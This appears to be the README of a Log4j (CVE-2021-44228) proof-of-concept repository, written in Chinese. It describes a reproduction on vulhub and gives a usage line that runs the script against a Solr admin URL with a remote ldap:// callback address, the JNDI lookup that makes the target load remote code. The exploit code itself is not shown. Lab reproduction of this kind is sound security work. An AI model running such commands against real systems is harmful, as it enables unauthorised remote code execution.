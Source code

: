 # log4j-poc
### 此漏洞基于vulhub进行的复现
对于有log4j 漏洞网站进行get请求的复现，如果为POST请求此脚本还不支持
### 使用说明
```
python CVE-2021-44228.PY -u 目标url -r 远程ldap调用对象
示例
python CVE-2021-44228.py -u http://10.0.0.135:8983/solr/admin/cores -r ldap://10.0.0.135:1389/dduxvr
```
